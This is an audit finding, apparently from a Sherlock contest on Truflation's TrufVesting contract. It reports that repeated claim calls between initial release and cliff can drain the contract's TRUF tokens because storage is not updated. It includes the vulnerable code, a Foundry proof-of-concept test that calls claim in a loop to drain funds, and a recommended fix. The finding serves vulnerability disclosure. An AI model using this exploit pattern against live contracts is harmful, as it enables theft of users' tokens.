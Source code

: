 Muscular Butter Stallion

high

# Vest owners can drain the TRUF tokens by calling claim many times when the vest is in initialRelease < cliff period

## Summary
When a vesting period occurs at `tgeTime + initialRelease < currentTime < tgeTime + initialRelease + cliff`, the vest owner can claim an infinite amount of tokens by consecutively calling `claim`. The claim will release the `initialRelease` part; however, it will enable the vest owner to repeatedly claim the same amount of tokens. Consequently, if the vest owner makes enough calls, they can drain all the TRUF tokens in the vesting contract.
## Vulnerability Detail
As stated in summary, whenever a vest is in between cliff and `initialRelease` time, the vest owner can call `claim` to claim the "initialRelease" portion of its vest. However, the vest owner can call this infinite amount of times because it lacks a storage update. Hence, all the truf in the contract can be drained. 

The reason why this happens is because the `claimable` function early exits with a return before updating the storage here:
https://github.com/sherlock-audit/2023-12-truflation/blob/37ddbb69e0c7fb6510f1ec99162fd9172ec44733/truflation-contracts/src/token/TrufVesting.sol#L180-L182

and you can see in below code snippet, before we get to the return exit, there are no storage updates nor storage checks of how much user can claim:
```solidity
        UserVesting memory userVesting = userVestings[categoryId][vestingId][user];

        VestingInfo memory info = vestingInfos[categoryId][vestingId];

        uint64 startTime = userVesting.startTime + info.initialReleasePeriod;

        if (startTime > block.timestamp) {
            return 0;
        }

        uint256 totalAmount = userVesting.amount;

        uint256 initialRelease = (totalAmount * info.initialReleasePct) / DENOMINATOR;

        startTime += info.cliff;
```

Here a PoC demonstrating the issue explained above:
```solidity
// forge test --fork-url "YOUR-FANCY-RPC-URL-HERE" --match-contract TrufVestingTest --match-test test_ClaimInfiniteTapir -vv
    function test_ClaimInfiniteTapir() external {
        console.log("Just before cliff user can claim infinite amount!");

        _setupVestingPlan();
        _setupExampleUserVestings();

        uint256 categoryId = 2;
        uint256 vestingId = 0;

        uint64 tgeTime = vesting.tgeTime();

        (, uint64 _initialReleasePeriod,,,) = vesting.vestingInfos(categoryId, vestingId);

        // warp to a time that we are not over cliff but we are over the tge + initialRelease
        vm.warp(tgeTime + _initialReleasePeriod + 1);

        console.log("Claimable Alice", vesting.claimable(categoryId, vestingId, alice));

        vm.startPrank(alice);

        uint256 aliceTrufBal = IERC20(trufToken).balanceOf(alice);
        vesting.claim(alice, categoryId, vestingId, vesting.claimable(categoryId, vestingId, alice));
        aliceTrufBal = IERC20(trufToken).balanceOf(alice);
        console.log("Tapir truf bal after first claim", aliceTrufBal);

        // one more time!
        vesting.claim(alice, categoryId, vestingId, vesting.claimable(categoryId, vestingId, alice));
        aliceTrufBal = IERC20(trufToken).balanceOf(alice);
        console.log("Tapir truf bal after first claim", aliceTrufBal);

        // ok... let's abuse!
        for (uint i = 0; i < 50; ++i) {
            vesting.claim(alice, categoryId, vestingId, vesting.claimable(categoryId, vestingId, alice));
        }

        aliceTrufBal = IERC20(trufToken).balanceOf(alice);
        console.log("Tapir truf bal after first claim", aliceTrufBal);
    }
```

Test result and Logs:
<img width="520" alt="image" src="https://github.com/sherlock-audit/2023-12-truflation-mstpr/assets/120012681/7a7e9e9a-96b1-481a-8898-25cc4f82791a">

## Impact
Since any vest owner can drain the entire vesting contract I'll label this as high.
## Code Snippet
https://github.com/sherlock-audit/2023-12-truflation/blob/37ddbb69e0c7fb6510f1ec99162fd9172ec44733/truflation-contracts/src/token/TrufVesting.sol#L159-L232
## Tool used

Manual Review

## Recommendation
Update the claimable amount of user in storage when user claims the `initialRelease` portion of the tokens  